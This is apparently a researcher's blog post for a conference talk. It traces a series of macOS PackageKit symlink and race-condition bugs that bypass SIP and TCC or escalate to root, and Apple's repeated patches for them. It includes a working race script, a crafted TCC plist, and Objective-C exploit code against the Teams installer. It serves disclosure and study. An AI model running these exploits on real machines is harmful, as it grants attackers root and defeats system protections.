

This is a blog post for my presentation at the conference [OBTS v7.0](https://objectivebythesea.org/v7/talks.html). The slides are uploaded [here](https://github.com/jhftss/jhftss.github.io/blob/main/res/slides/Endless%20Exploits.pdf).

How many patches must Apple release, before a vulnerability is truly fixed? The answer, my friend, is “**blowin' in the wind**”. 🙈

I discovered an interesting logic vulnerability in the **PackageKit** framework on macOS that allows for escalating privileges to **root**, circumventing the Transparency Consent and Control (**TCC**), and bypassing the System Integrity Protection (**SIP**).

It’s hard to believe that Apple released 9 patches in attempts to address the vulnerability before ultimately resolving it. Throughout this epic battle, I managed to harvest a series of CVEs: **CVE-2022-26688, CVE-2022-32900, CVE-2023-23497, CVE-2023-27962, CVE-2023-38564, CVE-2023-42853, CVE-2024-23275, CVE-2024-27885, CVE-2024-44178 and CVE-2025-24099**. 

I didn’t talk about the **CVE-2024-27885** and the **CVE-2024-44178** at the **OBTS** because of the limited time slot. In addition, the new **CVE-2025-24099** is a variant issue that was a 0-day vulnerability during the conference and has now been resolved in macOS 15.3, which was released on **Chinese New Year’s Eve**.

**Happy Spring Festival** to everyone!


# About the SIP file system protection

There are so many documents and blogs about the macOS System Integrity Protection, aka [SIP](https://support.apple.com/guide/security/system-integrity-protection-secb7ea06b49/web). To save time, I won't talk too much about the basic knowledge of macOS SIP. In this blog, we're going to focus on the file system protection. In short, it is **a special sandbox applied to the entire system**. The configuration can be found in the file named `/System/Library/Sandbox/rootless.config`. Take the location `/Library/Apple` as an example:


From the output of the system command `ls`, we can see that it is **restricted**, and it has the special extended attribute: “**com.apple.rootless**”. If I try to touch a file inside this location, it returns the error “**Operation not permitted**”, even if I executed the command with **root** privilege.

But how does the macOS system itself update the protected files?

The answer is that there are some Apple-signed services running with the powerful **CS_INSTALLER** privilege. They are usually signed with the private **rootless-related entitlements** to modify the protected system locations. 

# About the PackageKit framework

The vulnerability I'm talking about today exists in the **PackageKit** framework. Let's take a look at the framework first.

### What’s this?

It is a private framework, bundled with some executable binaries:


The duty of this framework is to install the PKG files. The service “**installd**” is for the common (**developer-signed or unsigned**) PKG files, while the service “**system_installd**” is for the **Apple-signed** PKG files. Both of them are running as **root**, sharing the same implementation in the **PackageKit** framework.

### Why is the framework so attractive?

For the “**installd**” service, it could be exploited for **root privilege escalation**. 

Moreover, the “**system_installd**” service is signed with the powerful entitlement “**com.apple.rootless.install.heritable**”. So **this service and all of its child processes** will possess the powerful **CS_INSTALLER** privilege to modify the SIP-protected files. Therefore, it could be exploited to **bypass the SIP** protection, that means **the full TCC bypass**.

On the other hand, there are lots of vulnerabilities disclosed in the history. About more than 40 vulnerabilities were discovered by myself.

### Attack surfaces

There are many possible **attack surfaces** within this framework.

- The first main attack surface exists in the **install operations**:

  

  As we can see here, there are over 20 different operations implemented. Some operations can be triggered in some special scenarios during the PKG installation.

- The second command attack surface exists in the **install action scripts** from the PKG files. For the **Apple-signed PKG** files, they can be exploited to **bypass the SIP**. For **the other PKG** files, they can be exploited to get **root privilege escalation**.

### Main workflow

The **installd** and **system_installd** services have the same main workflow.


From the `install.log`, we can see that there are at least three install operations that can be triggered by default during a PKG installation:

1. The **PKExtractInstallOperation** is designed to **extract the Payload contents** from the PKG file to the install sandbox root path.
2. The **PKRunPackageScriptInstallOperation** is responsible for **executing the install action scripts** embedded in the PKG file.
3. The **PKShoveInstallOperation** is designed to **shove the Payload contents** from the install sandbox repository to the install destination path.

### PKShoveInstallOperation

In the past, I have disclosed some of the vulnerabilities in the first two install operations. Today, our focus is on the last one, **PKShoveInstallOperation**.

After reversing the Objective-C class “**PKCoreShove**”, I found that the **shove** logic is a bit of complicated. It’s not equal to the **move** operation.


In most scenarios, it will call the method named “**-[PKCoreShove _relinkFile:dest:]**”, which internally calls the `rename` API. If both the source path and the destination path are directories, it will handle this case by **recursively** calling the method “**-[PKCoreShove shoveOneLevel:dest:]**”

If the source path is a directory while the destination path is a symbolic link, then what will happen?

# CVE-2022-26688

So, my motivation comes from this question: 

**If I replace the target directory with a symlink and install the Apple-signed PKG file, will it follow the symlink and redirect the PKG payload contents to another restricted location?**

Then I had a try and discovered the **CVE-2022-26688** immediately:


It is an interesting logic vulnerability to kick off today’s story. It can be exploited to bypass the SIP file system protection directly.

### The exploit

The testing process for my question is also the exploitation process:


We can see that the test environment is macOS `12.0.1`, and the SIP status is enabled.

Before the exploit, the location `/Library/Apple` is **restricted** and has the special **rootless extend attributes**, so I can’t write in this directory.

The exploit is just to **create a symlink to an arbitrary restricted directory** from the payload destination path.

Next, install the Apple-signed PKG file. The **PKShoveInstallOperation** will shove the payload contents from the install sandbox repository to the destination path. 

To my surprise, the shove process will not only **follow** the symlink and **shove** the payload contents to the restricted location, but also **clear** the restricted file flags and **remove** the rootless extended attribute for the resolved destination path! 

As a result, I can write and remove an arbitrary file in the restricted location, because it **becomes unrestricted** now.

### Root Cause

So, what happened under the hood?

In order to find the related processes and functions quickly, I recommend to use the **Instruments.app**, accompanied with the **Xcode**. Because this tool can not only monitor the file operations, but also provide the valuable **callstack trace information** (kind of like the [procmon](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon) on windows):


We can see that it is the **shove** process that performs the file operation. The **shove** process was spawned by the **system_installd** service, so it will inherit the powerful **CS_INSTALLER** privilege to modify the SIP-protected path.

At the same time, we can also see that the file operation was invoked by the function named “**-[PKCoreShove relinkFile:dest:sourceAttribs:destAttribs:]**”.


After diving into the function, we can see:

- At line 31, it calls the `rename` API to shove the Payload contents directly.

- At line 65, it invokes another method to propagate the file flags and extended attributes for the destination path.


Step into the file attributes propagation function,  we can see:

- At line 177, it calls the API `lchflags` to clear the restricted file flags for the destination path.

- At line 200, it uses the API `removexattr` to remove the special rootless extended attribute.

### The 1st patch

Apple first patched this vulnerability in macOS `12.3`:


Just as the log string implies, if the original destination path is **not trusted** and the resolved destination path is **trusted**, then it will **not follow** the symlink.

Next, it removes the symlink from the destination path first, and then calls the function “**-[PKCoreShove _relinkFile:dest:]**”.


It seems to stop my old exploitation directly. 

But is this safe enough?

# CVE-2022-32900

Of course not, **CVE-2022-32900** is the bypass for it:


The bypass idea is as follows:


I found that **if both the original destination path and the resolved destination path are not trusted, then it will follow the symlink directly**.

The resolved destination path is not trusted, but the subpath inside could be restricted and trusted. For instance, create a symlink to let the original destination path point to the unrestricted directory `/Library`, the shove process will follow the symlink and override the restricted subdirectory `/Library/Apple`.


Next, a challenge appears.

In order to override the restricted subdirectory, I need to find an Apple-signed PKG file with the special Payload contents: “**$SandboxRepo/Root/XXX/YYY/Apple**”.

However, I found that if I install the Apple-signed PKG file to a **mounted disk image volume**, the install sandbox repository is **not protected** by SIP. 

Even though the sandbox repository is created by the API `rootless_mkdir_restricted` and the `ls` command indicates it is restricted, it is not restricted at all! So I can **modify the Payload contents directly from the disk image volume**.

### The exploit and demo

The exploit code is uploaded to the GitHub link [here](https://github.com/jhftss/POC/tree/main/CVE-2022-32900).

The demo video: https://youtu.be/7lOzIgxFvaM

### The 2nd patch

Apple patched this vulnerability again in macOS `12.6`:


Now in the function `-[PKShoveInstallOperation _shoveExtractedRootOntoDestinationReturningError:]`, if the extracted payload path is **not trusted**, then the **shove** command will be spawned with an additional parameter “**-D**” like this:


Then in the **shove** process, it will drop the powerful **CS_INSTALLER** privilege by using the API “**csops**”:


The solution seems reasonable and kills my exploitation again. 

But is it okay now?

# CVE-2023-23497

Not yet, **CVE-2023-23497** is the bypass again:


### The new issue


At line 84 and 86, it checks whether the extracted payload path is trusted by using the **unsafe API** `rootless_check_trusted` and `rootless_protected_volume`. But it's easy to bypass them with symbolic links!

### The exploit and demo

Here is how I exploited this issue again:

1. Create a DMG file and mount it to the directory **/tmp/.exploit**
2. Install an Apple-signed PKG file to the volume **/tmp/.exploit**
3. Before **system_installd** calling the API **rootless_check_trusted**, replace the extracted payload path with **a symlink to a restricted location**.
4. The **“shove”** command will be spawned without the parameter **-D** and won’t drop the **SIP(CS_INSTALLER) privilege**.
5. Replace the extracted payload path with our real payload.

Then I encountered a new challenge: **the shove process will not follow the symlink because the source path and the resolved destination path are not on the same device.** The source path is from the mounted disk image device while the resolved destination path is on the root volume device.

The solution is to create a symlink to let the install sandbox repository point to a path on the Root volume device. Then the **shove** process will follow the symlink again!

The demo video: https://youtu.be/Min4ye0XL88

### The 3rd patch

Apple patched the issue again in macOS `13.2`:


It uses the safe API `rootless_check_trusted_fd`. The file descriptor was opened with the flag to open the symlink itself, instead of resolving the symlink.

# CVE-2023-27962

However, a new ridiculous issue was introduced accompany with the patch.

**CVE-2023-27962** is assigned for the new issue:


### The newly introduced issue

After reversing the patch function, I discovered a new careless coding issue:


Here, it checks whether the **shoveToolPath** is SIP fully protected, rather than the **extracted payload path** as before. Of course, the **shoveToolPath** from the system private framework is **restricted** and fully protected by SIP. 

**So the check at line 37 always returns true!**

### The exploit and demo

The exploit code is uploaded to the GitHub link [here](https://github.com/jhftss/POC/tree/main/CVE-2023-27962).

The demo video: https://youtu.be/rEkLNAtS5U4

### The 4th patch

Apple patched the issue again immediately in macOS `13.3`:


Again, it checks the **extracted payload path**, instead of the system **shoveToolPath**.

But is it safe enough now?

# CVE-2023-38564

Not yet, **CVE-2023-38564** is the bypass again:


### The issues


- On the one hand, at line 44, the `open` API with the flag `O_SYMLINK` will still follow if the parent path component is a symlink. Find a restricted folder named `Root`, then the check at line 48 will be bypassed again.

- On the other hand, the install sandbox repository could be controlled by using a **mounted disk image volume**.

### The exploit

In order to exploit this issue again, we need to make sense of the sandbox repository. 

It is a directory returned and created by the function “**-[PKInstallSandboxManager**

**_sandboxRepositoryForDestination:forSystemSoftware:create:error:]**“

- If the install target is the root volume “**/**”: 
  - For Apple-signed PKGs : 
    ` /Library/Apple/System/Library/InstallerSandboxes/.PKInstallSandboxManager-SystemSoftware`
  - For other PKGs : `/Library/InstallerSandboxes/.PKInstallSandboxManager`

- If the install target is **not the root volume**: 
  - For Apple-signed PKGs : `$targetVolume/.PKInstallSandboxManager-SystemSoftware`
  - For other PKGs : `$targetVolume/.PKInstallSandboxManager`


Here is how I exploited this issue again by using the mount trick:

1. Create a DMG file and **mount** it to the directory `/tmp/.exploit`.
2. Install an Apple-signed PKG to the volume `/tmp/.exploit`.
3. In the function "**-[PKInstallSandboxManager _sandboxRepositoryForDestination:forSystemSoftware:create:error:]**", once it creates and returns the path `/tmp/.exploit/.PKInstallSandboxManager-SystemSoftware` (inside the DMG volume) as its **sandbox repository**, I can **eject** the DMG volume immediately. Then the sandbox repository will be on the root volume, with the prefix path `/tmp/.exploit`.
4. Next, the service will create the **restricted payload directory** inside the sandbox repository by using the API **rootless_mkdir_restricted**.
5. The payload directory is restricted, so the **shove** command will not drop the SIP privilege.
6. The payload directory can’t be modified directly, but I can **mount** another DMG file to `/tmp/.exploit` again. Then it will become unrestricted and thus I can deploy my malicious payload there.

### The 5th patch

Apple patched the issue again in macOS `13.5`:


Now, it checks whether the **install sandbox repository** is trusted. So the mount trick can no longer bypass the check here.

At the same time, Apple took my suggestion that I proposed at the conference **PoC 2022** (P79 of the [slides](https://github.com/jhftss/jhftss.github.io/blob/main/res/slides/POC2022 - Package Disaster - Mickey Jin.pdf)):

Now, if the install destination path is **not the root volume**, it will use the unprivileged **installd** service to handle the install request for the **Apple-signed PKG** file, instead of the privileged **system_installd** service!

Well done, but is it safe enough now?

# CVE-2023-42853

Not yet, **CVE-2023-42853** is the bypass again:


### The issue

Let’s review the shove logic again:


If the source path is a directory and the destination path is a symbolic link, it will determine whether to follow the resolved destination path:

If the original destination is not restricted and the resolved destination is restricted, it will not follow the resolved destination. Otherwise, it will follow the resolved destination and shove the Payload contents there.

After shoving to the resolved destination, it will propagate the file flags and extended attributes.

It checks whether a path is trusted by using the API `rootless_check_trusted_fd`:


However, this API can only check the file flag **SF_RESTRCITED**, while the special file flag **SF_NOUNLINK** is ignored!

### The exploit and demo

So, I did a test:


First, I created a symlink to a location that has the special file flag **SF_NOUNLINK**, such as the directory `/Library/Application Support`, that can’t be mounted due to the special file flag.

Then I installed the Apple-signed PKG file. As a result, the **shove** process followed the symlink and **cleared the special file flag**. Then it became **mountable**!

So this issue can be exploited to bypass the TCC protection completely:

1. Abuse the SIP-bypass primitive to clear the file flag (**SF_NOUNLINK**) of an arbitrary path, e.g., “**/Library/Application Support**”. 
2. Create a DMG file and **mount** to the path “**/Library/Application Support**”. 
3. Put a crafted **TCC.db** in the path “**/Library/Application Support/com.apple.TCC**” to bypass the TCC completely!

The demo video: https://youtu.be/PT0iuaGJ9LY

### The 6th patch

Apple patched the issue again in macOS `14.1`:


Now in the function `PKSIPFullyProtected`, if a file path has the special **SF_NOUNLINK** flag, then it will be considered as **SIP fully Protected** too.

Seems better now, but is this safe enough?

# CVE-2024-23275

Not yet, **CVE-2024-23275** is the bypass again:


### The issue

So it checks whether the resolved destination path is SIP fully protected:


But the resolved destination path is opened with the flag “**O_NOFOLLOW**”, rather than the flag “**O_NOFOLLOW_ANY**”. So I can’t replace the resolved destination path with a symlink directly. But I can replace the parent path component with a symlink. Before calling the `open` API, create a symlink to point to an unrestricted location. After passing the check at line 291, let the symlink point to a restricted location to clear its restricted file flags.

### The exploit 

The exploit script is as follows:

```
#!/bin/sh
# Usage: exploit.sh /path/to/target (clear the target's file flag: "SF_RESTRICTED", "SF_SF_NOUNLINK")
TARGET_DIR=`dirname "$1"`
TARGET_NAME=`basename "$1"`

echo 'target dirname:' $TARGET_DIR ', target basename:' $TARGET_NAME
mkdir "/tmp/$TARGET_NAME"
ln -f -h -s /tmp /tmp/lnk
ln -f -h -s "/tmp/lnk/$TARGET_NAME" /Library/Application\ Support/ResearchSoft

echo 'waiting for the installation...'
# waiting for the shove process opening the untrusted /tmp/$TARGET_NAME
while true ; do
	if lsof -c shove | grep "/tmp/$TARGET_NAME" 
	then
		break
	fi
done

echo 'replacing the symlink...'
ln -f -h -s "$TARGET_DIR" /tmp/lnk
echo 'all done.'
```

It can be used to clear the restricted file flags of an arbitrary path.

### The 7th patch

Apple patched this issue again in macOS `14.4`:


Now, if the original destination path is not trusted, the resolved destination path will be opened with the flag “**O_NOFOLLOW_ANY**”. This flag kills any kinds of symlinks in the path.

But the exploits never ends.

# CVE-2024-27885

 **CVE-2024-27885** is the bypass again:


As mentioned before, after shoving to the install destination path, it will propagate the file flags and extended attributes for the destination path. The restricted file flags could be cleared by the API **lchflags**.

### The issues

The API **lchflags** is designed to not follow the symlink:


However, the implementation of the API was too sloppy:


It checks whether the given path is a symlink by using the API **lstat** at line 6:

- If the path is a symlink, it will use the API **setattrlist** with the option **FSOPT_NOFOLLOW**.
- If the path is not a symlink, it will still use the API **chflags**, which will follow the symlink.

So this is a classic **TOCTOU** issue here. After passing the check of the API **lstat** at line 6, an attacker can replace the path with a symlink. As a result, it uses the API **chflags** and follows the symlink directly to clear the restricted file flags of an arbitrary path.

Apple addressed the old issue as **CVE-2023-40383** in macOS 13.3 like this:


Now in the API **lchflags**, it removes the call of API **chflags**, always uses the API **setattrlist** with the option **FSOPT_NOFOLLOW**.

However, if I replace the parent path component with a symbolic link, it will still follow the symlink because it doesn’t use the option **FSOPT_NOFOLLOW_ANY (0x800)**.

**PKCoreShove** uses the API **lchflags** to clear the file flags for the install destination path:

```
void -[PKCoreShove _propagateFileModification:flags:xattrs:](void *a1, void *a2, int a3, void *a4)
{
//...
    if ( lchflags(path, v42) )
//...
}
```

### The exploit

For example, install the Apple-signed [WorkflowExtensionsSDK.pkg](https://download.developer.apple.com/Developer_Tools/Workflow_Extensions_SDK_1.0.2/Workflow_Extensions_1.0.2.dmg) will shove the Payload contents to the destination path like: `/Library/Developer/SDKs/WorkflowExtensionSDK.sdk/Library`.

Before installing the Apple-signed PKG, execute the following commands to prepare:

```
mkdir -p /Library/Developer/SDKs/WorkflowExtensionSDK.sdk/Library
chflags 6 /Library/Developer/SDKs/WorkflowExtensionSDK.sdk/Library
```

This will trigger the **PKCoreShove** to clear the path’s file flag during the installation:

```
lchflags("/Library/Developer/SDKs/WorkflowExtensionSDK.sdk/Library", 0);
```

Before the shove process calls the API **lchflags**, race to replace the parent path component `/Library/Developer/SDKs/WorkflowExtensionSDK.sdk` with a symlink to `/`.

As a result, the file flag **SF_NOUNLINK** of the path `/Library` will be cleared.

### The 2nd stage exploit

**Can we get more based on the previous primitive?**

The path `/Library` is still not mountable, even the file flag **SF_NOUNLINK** has been cleared.

The truth is that **the loss of certain restricted file flags has already broken the trust chain of System Integrity Protection**. 

For example, this primitive could make some restricted paths become **mountable**! By abusing the primitive to clear the **restricted flag (0x80000)** of the path `/Library/Apple/Library`, I can mount onto it. 

As I always said, **SIP Bypass means the Full TCC Bypass.** Next, modify the file `/Library/Apple/Library/Bundles/TCC_Compatibility.bundle/Contents/Resources/AllowApplicationsList.plist` to the following contents:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
	<key>Services</key>
	<dict>
		<key>AppleEvents</key>
		<array>
			<dict>
				<key>CodeRequirement</key>
				<string>identifier com.apple.Terminal</string>
				<key>IdentifierType</key>
				<string>bundleID</string>
				<key>Identifier</key>
				<string>com.apple.Terminal</string>
				<key>Comment</key>
				<string>40394397</string>
				<key>AEReceiverIdentifier</key>
				<string>com.apple.finder</string>
				<key>AEReceiverIdentifierType</key>
				<string>bundleID</string>
				<key>AEReceiverCodeRequirement</key>
				<string>identifier com.apple.finder</string>
			</dict>
		</array>
	</dict>
</dict>
</plist>
```

As a result, the `Terminal.app` is able to send arbitrary **AppleEvents** to the `Finder.app`, and thus bypass the TCC completely!

Note that after this exploit was submitted to Apple, Apple has obsoleted the bunde `/Library/Apple/Library/Bundles/TCC_Compatibility.bundle` since macOS 15.0 Beta 3:


### The 8th patch

Apple patched this issue again in macOS `14.5`:

```
void -[PKCoreShove _propagateFileModification:flags:xattrs:](void *a1, void *a2, int a3, void *a4)
{
//...
    fd = open(path, O_SYMLINK|O_NOCTTY|O_NONBLOCK);
//...
    if ( fchflags(fd, v48) )
//...
}
```

Now, it uses the API **fchflags**, instead of the API **lchflags**.

But is it okay now?

# CVE-2024-44178

Not yet, **CVE-2024-44178** is the bypass again:


### The issue

As we can see from the 8th patch, it calls the **open** API with the flag `O_SYMLINK|O_NOCTTY|O_NONBLOCK`, without using the flag **O_NOFOLLOW_ANY**!

Therefore, before it opens the `path=/Library/Developer/SDKs/WorkflowExtensionSDK.sdk/Library`, an attacker is still able to replace the parent path component `/Library/Developer/SDKs/WorkflowExtensionSDK.sdk` with a symlink.

The exploit process is similar to the previous one.

### The 9th patch

Apple patched this issue again in macOS `15.0`.

If the current service is the privileged **“system_installd”** (`PKSIPCurrentProcessCanModifySystemIntegrityProtectionFiles` returns **TRUE**), the **shove** process will be spawned **without** the parameter **“-s”**:



In the **shove** process, the parameter **“-s”** means the symlink is allowed (`optionFlags |= 4`):


Then the function `-[PKCoreShove _linkResolutionProhibitted]` will return **TRUE** if the parameter **“-s”** is not specified:


Next, the `open` API will use the flag **“O_NOFOLLOW_ANY”** if the **link resolution is prohibited**:


At the same time, the `rename` API has been changed to `renamex_np`, the flag **“RENAME_NOFOLLOW_ANY”** will be used if the **link resolution is prohibited**:


# CVE-2025-24099: One more variant for LPE

Everything seems fine now, but how about the PKG files signed by the 3rd-party developers?

In fact, this is a variant vulnerability, that can be exploited to get root privilege escalation when installing a normal 3rd-party-signed software package.

### The issue (e.g., Teams_osx.pkg)

Let’s take the Microsoft Teams installer package (**Teams_osx.pkg**) as an example.

At my first glance, the issue exists in the `postinstall` script:


It registers a **launch daemon** with **root privilege** by using the "`${UPDATER_DAEMON_FILE_IN_APP}`". **The developer thinks that the application path should be owned by root after the PKG installation** and couldn’t be modified by a common user.

However, **this wrong assumption could be broken by creating a symbolic link!**

An attacker can first redirect the root-owned PKG Payload contents to another location, and then write a payload at the path "`${UPDATER_DAEMON_FILE_IN_APP}`" directly to get the root privilege.

### The exploit and demo (for Teams_osx.pkg)

The exploit code is as follows:

```
#define TEAMS_APP_FOLDER "/Applications/Microsoft Teams classic.app"
#define XPC_FOLDER TEAMS_APP_FOLDER"/Contents/TeamsUpdaterDaemon.xpc/Contents/MacOS"
#define XPC_EXE_PATH XPC_FOLDER"/TeamsUpdaterDaemon"
void exploit_teams_pkg(void) {
    mkdir("/Applications/1337.app", 0777);
    symlink("/Applications/1337.app", TEAMS_APP_FOLDER);
    printf("[*] Waiting for Microsoft Teams classic installation...\npress enter when the installation is done.");
    getchar();
    
    unlink(TEAMS_APP_FOLDER);
    system("mkdir -p \""XPC_FOLDER"\"");
    printf("[*] Writing my LPE payload\n");
    [@"#!/bin/sh\ntouch /Library/LPE\n/System/Applications/Utilities/Terminal.app/Contents/MacOS/Terminal\n" writeToFile:@XPC_EXE_PATH atomically:TRUE encoding:NSUTF8StringEncoding error:nil];
    chmod(XPC_EXE_PATH, 0777);
}

@protocol DUMMY
- (void)ping;
@end
void wakeup_daemon_xpc(void) {
    NSXPCConnection *connection = [[NSXPCConnection alloc] initWithMachServiceName:@"com.microsoft.teams.TeamsUpdaterDaemon" options:NSXPCConnectionPrivileged];
    connection.remoteObjectInterface = [NSXPCInterface interfaceWithProtocol:@protocol(DUMMY)];
    [connection resume];
    [connection.remoteObjectProxy ping];
    printf("[*] All done, enjoy the root shell :p\n");
}
```

The demo video: https://youtu.be/8h0N_n_XNQo

### Who should be blamed?

I reported this issue to Microsoft via the MSRC portal first. But they determined that it is not a vulnerability:


Before disclosing the 0-day vulnerability publicly, I decided to report this issue to Apple. As I have reported so many SIP bypass issues from the **PKCoreShove** logic, I have a better understanding of this issue now. I think the root cause of this issue should be blamed to Apple and only Apple can address this kind of issues completely:

When we install an **Apple-signed PKG** file, Apple will **check the destination path carefully** to avoid the **SIP bypass** issues. If the destination path is a symbolic link and not trusted, it will not follow the symbolic link before shoving the PKG contents.

Now, we are installing a common **PKG file signed by the 3rd-party developers**. Apple **doesn't check the destination path any more** before shoving, that leads to the **LPE issue** here. By creating a symbolic link, an attacker can redirect the root-owned PKG payload contents to an arbitrary location.

### The patch

#### Patch in macOS 15.0?


Apple told me that the issue had been addressed in macOS Sequoia 15.0, and my credit info can be found in their additional recognitions.

However, through my test, I could still exploited it again directly without changing my code.

When I was going to disclose the 0-day vulnerability at the **OBTS**, Apple acknowledged their mistake:


#### Patch in macOS 15.3

In the function `-[PKShoveInstallOperation _shoveExtractedRootOntoDestinationReturningError:]`:


It enumerates all the bundle components in the PKG Payload and marks the **parent bundle** component as a **ATOMIC_REPLACEMENT_PATH**, that needs to be **atomically shoved**. The **shove** command will be spawned like this:

`shove -f -s -O /Library/InstallerSandboxes/.PKInstallSandboxManager/EEE6ABF9-A22A-4502-9FC6-F10C0A567B18.activeSandbox/ShoveExtraOptions-7ACF2D9C-6589-4679-9850-C8ECB05111FA.plist /Library/InstallerSandboxes/.PKInstallSandboxManager/EEE6ABF9-A22A-4502-9FC6-F10C0A567B18.activeSandbox/Root /`

The contents of `ShoveExtraOptions-7ACF2D9C-6589-4679-9850-C8ECB05111FA.plist`:

```
{
  "ATOMIC_REPLACEMENT_PATHS" => [
    0 => "Applications/Microsoft Teams classic.app"
  ]
}
```

Next, in the function `-[PKCoreShove shoveOneLevel:dest:]`:


It will not follow the destination symlink for the atomic replacement path.

# Take Away

- **Attack surfaces** in the PackageKit framework
- An unforgettable bug hunting journey (**patches and bypasses** :)
- **Exploitations** are also public: https://github.com/jhftss/POC  

